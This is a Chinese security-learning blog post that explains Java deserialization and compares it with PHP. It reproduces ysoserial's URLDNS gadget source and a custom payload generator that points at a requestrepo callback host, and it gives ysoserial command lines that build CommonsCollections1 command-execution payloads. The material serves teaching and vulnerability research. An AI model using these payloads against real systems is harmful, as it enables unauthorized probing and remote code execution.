


+++
title= "Java反序列化基础"
slug= "java-deserialization-basics-also-urldns"
description= "一些基础知识以及URLDNS链学习"
date= "2025-08-29T22:31:40+08:00"
lastmod= "2025-08-29T22:31:40+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

## 前言

反序列化，对于学习过PHP的师傅来说，肯定不陌生。

1. **序列化** ：将一个对象转换成一种可以存储或传输的格式（例如，JSON、XML、二进制流等），以便于后续的存储或发送。对于实现对象的持久化、网络传输等非常重要。
2. **反序列化** ：将存储或传输的格式还原为原来的对象。这一过程通常是在接收端进行，以便于对传输的数据进行处理。

## 横向对比

现在安全市面上常见的反序列化漏洞主要是四类语言，python、Java、PHP、.NET

最后一种类似于Java反序列化，可以参考L3HCTF2025其中的LookingMyEyes

python是专门的pickle反序列化，opcode直接来进行，非常的容易去调用，比起后面三者来说，基本是不需要gadget

### php

PHP中有个特殊的魔术方法，wakeup，并且开发者是无法参与到反序列化的过程中，只能参与序列化的过程，而在序列化时经常使用到wakeup来进行一些类的初始化工作（于construct不同的初始化）

这里以一个数据库连接类来举例

```php
<?php
class Connection
{
    protected $link;
    private $dsn, $username, $password;

    public function __construct($dsn, $username, $password)
    {
        $this->dsn = $dsn;
        $this->username = $username;
        $this->password = $password;
        $this->connect();
    }

    private function connect()
    {
        $this->link = new PDO($this->dsn, $this->username, $this->password);
    }

    public function __sleep()
    {
        return array('dsn', 'username', 'password');
    }

    public function __wakeup()
    {
        $this->connect();
    }

    public function __destruct()
    {
        $this->link = null;
    }
}
```

可以看到，在PHP中，`__wakeup`方法的作用是在反序列化后，自动调用此方法以执行一些初始化操作，具体来说就是在获取到`Connection`对象时，调用`connect()`函数以建立数据库连接。不过，我们很少使用序列化数据来传递资源类型的对象。在多数情况下，其他类型的对象在反序列化时已被赋予其值。

因此，通常来说，PHP的反序列化漏洞不太是由于`__wakeup`方法直接触发的。反序列化漏洞很可能在析构函数`__destruct`中被触发（wakeup绕过）。并且在事实上，大多数PHP反序列化漏洞并非直接由反序列化本身导致（PHP反序列化不算漏洞的称呼），而是通过反序列化过程控制对象的属性，进而在后续代码中进行潜在的危险操作。

### Java

先定义一个类，

```java
package Base.Unserialize.Base;

import java.io.IOException;

public class Person implements java.io.Serializable {
    public String name;
    public int age;

    public Person(String name, int age) {
        this.name = name;
        this.age = age;
    }

    private void writeObject(java.io.ObjectOutputStream s) throws IOException {
        s.defaultWriteObject();
        s.writeObject("This is a object");
    }

    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        String message = (String) s.readObject();
        System.out.println(message);
    }
}
```

再进行正常的序列化以及反序列化，同时我们也可以看到前言里面说的序列化以及反序列化的存储是怎么样的。

```java
package Base.Unserialize.Base;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class Main {
    public static void main(String[] args) {
        Person person = new Person("baozongwi", 18);

        // 序列化到内存
        byte[] personData = null;
        try (ByteArrayOutputStream byteOut = new ByteArrayOutputStream();
             ObjectOutputStream out = new ObjectOutputStream(byteOut)) {
            out.writeObject(person);
            // 获取字节数组
            personData = byteOut.toByteArray();
        } catch (IOException e) {
            e.printStackTrace();
        }

        // 反序列化从内存
        try (ByteArrayInputStream byteIn = new ByteArrayInputStream(personData);
             ObjectInputStream in = new ObjectInputStream(byteIn)) {
            Person deserializedPerson = (Person) in.readObject();
            System.out.println("Name: " + deserializedPerson.name);
            System.out.println("Age: " + deserializedPerson.age);
        } catch (IOException | ClassNotFoundException e) {
            e.printStackTrace();
        }
    }
}
```

二进制存储 ：序列化过程生成的文件或内存中存储的数据都是二进制格式，而不是文本格式。它包含对象的属性和元数据，使得反序列化能够恢复对象的完整状态；平台独立性 ：Java的序列化机制允许在不同平台之间传输对象，因为数据的二进制格式使得可以方便地在不同的Java虚拟机（JVM）之间共享对象。



虽然可以看到都是在这一个文件里面，而我们写入的`This is a object`不知道在哪了，再写个在同一个类里面的demo

```java
package Base.Unserialize.Base;

import java.io.*;

class Person1 implements Serializable {
    String name;
    int age;

    Person1(String name, int age) {
        this.name = name;
        this.age = age;
    }
    private void writeObject(java.io.ObjectOutputStream s) throws IOException {
        s.defaultWriteObject();
        s.writeObject("This is a object");
    }
    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        String message = (String) s.readObject();
        System.out.println(message);
    }
}

public class Example {
    public static void main(String[] args) {
        // 创建并序列化一个对象
        Person1 person = new Person1("John Doe", 30);
        try {
            FileOutputStream fileOut = new FileOutputStream("person.ser");
            ObjectOutputStream out = new ObjectOutputStream(fileOut);
            out.writeObject(person);
            out.close();
            fileOut.close();
        } catch (IOException e) {
            e.printStackTrace();
        }

        // 反序列化对象
        Person1 deserializedPerson = null;
        try {
            FileInputStream fileIn = new FileInputStream("person.ser");
            ObjectInputStream in = new ObjectInputStream(fileIn);
            deserializedPerson = (Person1) in.readObject();
            in.close();
            fileIn.close();
        } catch (IOException | ClassNotFoundException e) {
            e.printStackTrace();
        }

        // 输出反序列化后的对象信息
        if (deserializedPerson != null) {
            System.out.println("Name: " + deserializedPerson.name);
            System.out.println("Age: " + deserializedPerson.age);
        }
    }
}
```

https://github.com/NickstaDB/SerializationDumper 利用这个工具来分析一波

```bash
# 从十六进制字符串打印序列化数据 ：
java -jar SerializationDumper-v1.14.jar aced0005740004414243447071007e0000

# 从十六进制文件中读取数据 ：
java -jar SerializationDumper-v1.14.jar -f hex-ascii-input-file.txt

# 从原始二进制文件反序列化 ：
java -jar SerializationDumper-v1.14.jar -r person1.ser

# 重新构造序列化流 ：
java -jar SerializationDumper-v1.14.jar -b dumped.txt rebuilt.bin
```

需要jdk17，以及jenv来切换版本

```bash
brew install --cask temurin17

brew install jenv
```

添加到环境变量里面

```bash
export PATH="$HOME/.jenv/bin:$PATH"
eval "$(jenv init -)"


source ~/.bash_profile
```

如何使用jenv呢

```bash
# 在特定项目里
jenv local 1.8
# 全局
jenv global 17
# 添加Java
jenv add /usr/local/opt/openjdk@17
```

换一下来看看数据

```bash
jenv global 17

Dewu-F7574WXJ3Q:Base admin$ java -jar SerializationDumper-v1.14.jar -r person.ser

STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 24 - 0x00 18
        Value - Base.Unserialize.Person1 - 0x426173652e556e73657269616c697a652e506572736f6e31
      serialVersionUID - 0xfd a0 77 99 19 d0 db e9
      newHandle 0x00 7e 00 00
      classDescFlags - 0x03 - SC_WRITE_METHOD | SC_SERIALIZABLE
      fieldCount - 2 - 0x00 02
      Fields
        0:
          Int - I - 0x49
          fieldName
            Length - 3 - 0x00 03
            Value - age - 0x616765
        1:
          Object - L - 0x4c
          fieldName
            Length - 4 - 0x00 04
            Value - name - 0x6e616d65
          className1
            TC_STRING - 0x74
              newHandle 0x00 7e 00 01
              Length - 18 - 0x00 12
              Value - Ljava/lang/String; - 0x4c6a6176612f6c616e672f537472696e673b
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 02
    classdata
      Base.Unserialize.Person1
        values
          age
            (int)30 - 0x00 00 00 1e
          name
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - 8 - 0x00 08
                Value - John Doe - 0x4a6f686e20446f65
        objectAnnotation
          TC_STRING - 0x74
            newHandle 0x00 7e 00 04
            Length - 16 - 0x00 10
            Value - This is a object - 0x546869732069732061206f626a656374
          TC_ENDBLOCKDATA - 0x78
```

我们写入的字符串This is a object被放在objectAnnotation的位置。 在反序列化时，读取了这个字符串，并将其输出

Java在序列化时一个对象，将会调用这个对象中的 writeObject 方法，参数类型是 ObjectOutputStream ，开发者可以将任何内容写入这个stream中;反序列化时，会调用 readObject ，开发者也可以从中读取出前面写入的内容，并进行处理。

> 这个特性会非常重要比方说HashMap，其就是将Map中的所有键、 值都存储在 objectAnnotation 中，而并不是某个具体属性里。

Java设计 readObject 的思路和PHP的 wakeup 不同点在于: readObject 倾向于解决“反序列化时如 何还原一个完整对象”这个问题，而PHP的 wakeup 更倾向于解决“反序列化后如何初始化这个对象”的 问题。

Java相对PHP序列化更深入的地方在于，其提供了更加高级、灵活地方法 writeObject ，允许开发者在序列化流中插入一些自定义数据，进而在反序列化的时候能够使用 readObject 进行读取。

接下来看看最简单基础的链子，每一个学习Java安全的师傅，都是从URLDNS链开始学习的，俺也一样。

## ysoserial

学习Java反序列化，又不得不提及到这个工具，这工具也是历史悠久，老的没边，我还在读小学的时候就存在了

- 2015年，Gabriel Lawrence和Chris Frohoff提出利用Apache Commons Collections 构造反序列化攻击链，影响WebLogic、JBoss、Jenkins等应用，引发Java安全领域广泛关注。
  ysoserial 是两位研究者发布的工具，用于生成反序列化利用数据（Payload），通过发送恶意数据触发目标系统执行任意命令。

其中有很多很多gadget，也就是利用链，可以供我们进行参考、改写

- 利用链（Gadget Chains）是从反序列化触发点到最终命令执行的代码调用链。
  例如：PHP中可能是 __destruct → eval，Java中可能是 readObject → Runtime.exec()。
  作用 ：通过组合类库中的危险方法，构造恶意对象，实现RCE（远程代码执行）。

使用也非常的简单，因为现在网上有完整的jar包，

https://github.com/frohoff/ysoserial

https://github.com/Y4er/ysoserial

所以直接用命令调用即可

```bash
java -jar ysoserial-all.jar CommonsCollections1 "id" |base64
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 "id" | base64
```

## URLDNS

这是一条最基础，最经典的利用链，并不能执行任何命令，仅仅只是发送一个DNS请求，但是他有以下优点

- 使⽤用Java内置的类构造，对第三⽅方库没有依赖 
- 在⽬目标没有回显的时候，能够通过DNS请求得知是否存在反序列列化漏漏洞洞

查看yso里面这条链怎么写的 https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java

```java
package ysoserial.payloads;

import java.io.IOException;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


/**
 * A blog post with more details about this gadget chain is at the url below:
 *   https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
 *
 *   This was inspired by  Philippe Arteau @h3xstream, who wrote a blog
 *   posting describing how he modified the Java Commons Collections gadget
 *   in ysoserial to open a URL. This takes the same idea, but eliminates
 *   the dependency on Commons Collections and does a DNS lookup with just
 *   standard JDK classes.
 *
 *   The Java URL class has an interesting property on its equals and
 *   hashCode methods. The URL class will, as a side effect, do a DNS lookup
 *   during a comparison (either equals or hashCode).
 *
 *   As part of deserialization, HashMap calls hashCode on each key that it
 *   deserializes, so using a Java URL object as a serialized key allows
 *   it to trigger a DNS lookup.
 *
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 *
 *
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```

自己写一段反序列化的代码

```java
package Base.Unserialize.CC;

import java.io.*;
import java.net.URL;
import java.net.URLStreamHandler;
import java.net.URLConnection;
import java.net.InetAddress;
import java.util.HashMap;

public class URLDNSDeserializeTest {
    public static void main(String[] args) throws Exception {
        // 1. 生成序列化 Payload 并保存到文件
        String testUrl = "https://a95gdimv.requestrepo.com/";
        byte[] payload = generatePayload(testUrl);
        FileOutputStream fos = new FileOutputStream("payload.bin");
        fos.write(payload);
        fos.close();
        System.out.println("[+] Payload 已生成: payload.bin");

        // 2. 模拟目标的反序列化过程（核心调试点）
        System.out.println("[*] 开始反序列化...");
        deserializePayload("payload.bin"); // 此处会触发 DNS 查询
    }

    // 生成 URLDNS Payload（避免提前触发 DNS）
    private static byte[] generatePayload(String url) throws Exception {
        URLStreamHandler handler = new SilentURLStreamHandler(); // 自定义 Handler 避免提前解析
        HashMap<URL, String> hashMap = new HashMap<>();
        URL u = new URL(null, url, handler);
        hashMap.put(u, url);

        // 通过反射强制重置 URL.hashCode，确保反序列化时重新计算
        java.lang.reflect.Field hashCodeField = URL.class.getDeclaredField("hashCode");
        hashCodeField.setAccessible(true);
        hashCodeField.set(u, -1);

        // 序列化为字节数组
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(hashMap);
        return bos.toByteArray();
    }

    // 反序列化 Payload（触发 DNS 查询）
    private static void deserializePayload(String filename) throws Exception {
        FileInputStream fis = new FileInputStream(filename);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object obj = ois.readObject(); // 核心断点位置
        ois.close();
    }

    // 自定义 URLStreamHandler（避免生成 Payload 时触发 DNS）
    private static class SilentURLStreamHandler extends URLStreamHandler {
        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }
        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
}
```

但是调试入口是哪里呢？前面我们说过，反序列化的方法是`readObject`，而看了一圈，这里面也就一个`hashmap`方法，所以直接冲他的`readObject`，跟进`readObject`

```java
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

首先重置了hashmap内部容量，然后进行hash表容量计算、重建，再逐个插入键值对，跟进hash方法

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

继续跟进

```java
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

接着跟进`handler.hashCode()`

```java
protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        if (addr != null) {
            h += addr.hashCode();
        } else {
            String host = u.getHost();
            if (host != null)
                h += host.toLowerCase().hashCode();
        }

        // Generate the file part.
        String file = u.getFile();
        if (file != null)
            h += file.hashCode();

        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();

        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();

        return h;
    }
```

其中有`getHostAddress`解析域名，跟进

```java
protected synchronized InetAddress getHostAddress(URL u) {
        if (u.hostAddress != null)
            return u.hostAddress;

        String host = u.getHost();
        if (host == null || host.equals("")) {
            return null;
        } else {
            try {
                u.hostAddress = InetAddress.getByName(host);
            } catch (UnknownHostException ex) {
                return null;
            } catch (SecurityException se) {
                return null;
            }
        }
        return u.hostAddress;
    }
```

`getByName`进行域名解析，发送DNS请求，这就是一条完整的URLDNS利用链，调用栈如下

```java
at java.net.URLStreamHandler.getHostAddress(URLStreamHandler.java:442)
at java.net.URLStreamHandler.hashCode(URLStreamHandler.java:359)
at java.net.URL.hashCode(URL.java:885)
at java.util.HashMap.hash(HashMap.java:339)
at java.util.HashMap.readObject(HashMap.java:1413)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at Base.Unserialize.CC.URLDNSDeserializeTest.deserializePayload(URLDNSDeserializeTest.java:48)
at Base.Unserialize.CC.URLDNSDeserializeTest.main(URLDNSDeserializeTest.java:22)
```


